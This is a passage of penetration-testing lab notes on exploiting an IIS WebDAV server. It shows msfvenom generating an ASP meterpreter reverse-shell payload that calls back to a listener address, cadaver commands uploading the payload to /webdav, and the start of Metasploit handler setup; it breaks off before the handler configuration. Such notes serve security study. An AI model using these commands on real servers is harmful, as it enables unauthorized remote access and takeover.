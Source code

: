 ![davtest Summary](windows-attacksassets/image-20230310153854088.png)

- Use [Metasploit module](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_upload_asp/) to execute a payload and optain a **reverse shell** (**`meterpreter session`**) on the target system or use `msfvenom` to manually create a payload and use it with metasploit.

### [msfvenom](https://www.offsec.com/metasploit-unleashed/msfvenom/) - manual

- Manually generate the `.asp` payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.80.4 LPORT=1234 -f asp > shell.asp
```

- Use `cadaver` to upload the generated `shell.asp` payload to the `/webdav` directory

```bash
cadaver http://10.4.18.218/webdav
```

```bash
put /root/shell.asp
```

Before executing the `shell.asp`, *setup a **listener**/**handler** that will receive the reverse connection from the target and send the stage that provides with a `meterpreter` session when executed*.
- Open a new terminal tab and run Metasploit with database support

```bash
service postgresql start && msfconsole
```

- Setup a [Metasploit handler](https://www.rapid7.com/db/modules/exploit/multi/handler/), using the same payload, LHOST, LPORT provided to `msfvenom`
